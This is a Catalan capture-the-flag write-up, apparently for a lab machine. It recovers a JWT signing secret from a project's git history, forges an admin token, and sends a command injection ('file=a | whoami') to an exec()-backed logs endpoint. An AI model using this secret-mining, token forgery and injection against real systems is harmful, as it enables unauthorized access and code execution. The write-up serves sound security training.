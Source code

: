 ```
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQ... (és molt llarg, ja t'aviso)
+TOKEN_SECRET = secret
```

D'aquesta forma obtenim el TOKEN_SECRET i ja podrem firmar els tokens amb el contingut que volguem en els payloads.  


**Command injection i les desventures de JWT**
 
Utilitzarem la web https://jwt.io/ per crear un token JWT amb el secret obtingut:

```
{
  "_id": "622fb7580831bd045ed5c5cb",
  "name": "theadmin",
  "email": "ajax@r3quest.com",
  "iat": 1647294407
}
```
 
Amb aquest token, enviarem una petició GET a travès de curl a la API victima:

`curl  -X GET http://10.10.11.120:3000/api/priv/ -H "auth-token: $TOKEN_JWT" `

I obtenim de resultat el que esperavem:
```
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```

Tornant a repasar el codi de private.js, aquest cop li posarem l'ull a la funció *api/logs/*.  
Sembla que el codi té en compte un parametre *file* passat a través de GET i que aquest, és passa directament a una funció exec()... Això té pinta de command injection!  
Per poder explotar-ho tranquilament (i complicar-me la vida), he creat un programa en python anomenat `jwt_request.py`. Aquest programa genera un token JWT vàlid coneixent la clau amb la que es signa i ens permet passar-li el payload que volguem.  
Realment, és podria reutilitzar el token generat anteriorment i pasar-lo a través de un `curl`, ja que el command injection és a travès de un parametre GET, i no pas dins del payload del JWT.  
De totes maneres, tenir eines utils per un futur mai esta de més.  

Utilitzant `jwt_request.py` per saber qui esta executant el NodeJS:

`python jwt_request.py 'whoami'`

```
Sending request:
+   URL: http://10.10.11.120:3000/api/logs?file=a | whoami

Got response with status code [200]: 
"dasith"
```
